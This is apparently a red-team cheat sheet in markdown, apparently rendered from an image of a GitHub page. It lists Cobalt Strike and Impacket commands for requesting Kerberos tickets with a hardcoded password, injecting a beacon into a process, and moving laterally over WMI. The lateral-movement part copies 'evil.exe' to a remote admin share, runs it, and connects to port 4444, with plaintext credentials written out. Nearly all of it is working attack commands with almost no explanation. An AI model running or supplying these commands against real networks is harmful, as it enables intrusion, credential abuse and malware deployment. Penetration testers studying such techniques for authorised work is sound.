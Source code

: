 Impacket

```
getTGT.py -dc-ip 10.9.0.1 'vault.local/attackersystem$:Summer2018!'
```

### Process Injection

```
# find desired PID
beacon> ps
[...]

beacon> inject 340 x64 peer-localhost
[...]
```

### Resources
- https://github.com/GhostPack/Rubeus
- https://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/

## Lateral Movement

Common options:
- Windows Management Instrumentation (WMI)
- PowerShell Remoting
- PsExec

### Windows Management Instrumentation (WMI)

Manual

```
beacon> shell wmic /node:"w-west-239" /user:"vault.io\n.perroti" /password:"Passw0rd" process call create "powershell -enc [...snip...]"
```

CS

```
# powershell 1 liner
beacon> remote-exec wmi w-west-239 powershell -enc [...]

# upload
beacon> cd \\w-west-239\c$\windows\temp
beacon> upload /tmp/evil.exe
beacon> cd c:\
beacon> remote-exec wmi w-west-239 c:\windows\temp\evil.exe
beacon> connect w-west-239 4444
```

SharpWMI

```
# skip username/password to run in current context
beacon> execute-assembly /opt/tools/SharpWMI.exe action=exec computername=w-west-239 command="c:\windows\temp\evil.exe" username="vault\n.perroti" password="Passw0rd"
```
